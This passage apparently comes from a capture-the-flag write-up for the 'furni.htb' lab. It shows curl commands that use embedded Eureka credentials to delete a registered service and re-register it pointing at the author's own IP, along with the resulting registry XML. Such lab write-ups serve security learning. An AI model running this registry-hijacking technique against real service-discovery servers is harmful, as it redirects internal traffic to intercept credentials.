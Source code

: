 Let's delete the existing instance.

```bash
curl -X DELETE 'http://EurekaSrvr:0scarPWDisTheB3st@furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE/localhost:USER-MANAGEMENT-SERVICE:8081'
```

We should be able to create an endpoint towards our machine with the following payload.

```bash
curl 'http://EurekaSrvr:0scarPWDisTheB3st@furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE/' -d '{"instance":{"instanceId":"USER-MANAGEMENT-SERVICE","app":"USER-MANAGEMENT-SERVICE","appGroupName":null,"ipAddr":"10.10.14.158","sid":"na","homePageUrl":"http://10.10.14.158:8081/","statusPageUrl":"http://10.10.14.158:8081/actuator/info","healthCheckUrl":"http://10.10.14.158:8081/actuator/health","secureHealthCheckUrl":null,"vipAddress":"user-management-service","secureVipAddress":"user-management-service","countryId":1,"dataCenterInfo":{"@class":"com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo","name":"MyOwn"},"hostName":"10.10.14.158","status":"UP","overriddenStatus":"UNKNOWN","leaseInfo":{"renewalIntervalInSecs":30,"durationInSecs":90,"registrationTimestamp":0,"lastRenewalTimestamp":0,"evictionTimestamp":0,"serviceUpTimestamp":0},"isCoordinatingDiscoveryServer":false,"lastUpdatedTimestamp":1630906180645,"lastDirtyTimestamp":1630906182808,"actionType":null,"asgName":null,"port":{"$":8081,"@enabled":"true"},"securePort":{"$":443,"@enabled":"false"},"metadata":{"management.port":"8081"}}}' -H "Content-type: Application/json"
```

On the [user management service](http://furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE) we should now see our own data.

```xml
<application>
  <name>USER-MANAGEMENT-SERVICE</name>
  <instance>
    <instanceId>USER-MANAGEMENT-SERVICE</instanceId>
    <hostName>10.10.14.158</hostName>
    <app>USER-MANAGEMENT-SERVICE</app>
    <ipAddr>10.10.14.158</ipAddr>
    <status>UP</status>
    <overriddenstatus>UNKNOWN</overriddenstatus>
    <port enabled="true">8081</port>
    <securePort enabled="false">443</securePort>
    <countryId>1</countryId>
    <dataCenterInfo class="com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo">
      <name>MyOwn</name>
    </dataCenterInfo>
    <leaseInfo>
      <renewalIntervalInSecs>30</renewalIntervalInSecs>
      <durationInSecs>90</durationInSecs>
      <registrationTimestamp>1745748658900</registrationTimestamp>
      <lastRenewalTimestamp>1745748658900</lastRenewalTimestamp>
      <evictionTimestamp>0</evictionTimestamp>
      <serviceUpTimestamp>1745748658900</serviceUpTimestamp>
    </leaseInfo>
    <metadata>
      <management.port>8081</management.port>
    </metadata>
    <homePageUrl>http://10.10.14.158:8081/</homePageUrl>
    <statusPageUrl>http://10.10.14.158:8081/actuator/info</statusPageUrl>
    <healthCheckUrl>http://10.01.14.158:8081/actuator/health</healthCheckUrl>
    <vipAddress>user-management-service</vipAddress>
    <secureVipAddress>user-management-service</secureVipAddress>
    <isCoordinatingDiscoveryServer>false</isCoordinatingDiscoveryServer>
    <lastUpdatedTimestamp>1745748658900</lastUpdatedTimestamp>
    <lastDirtyTimestamp>1630906182808</lastDirtyTimestamp>
    <actionType>ADDED</actionType>
  </instance>
</application>
```
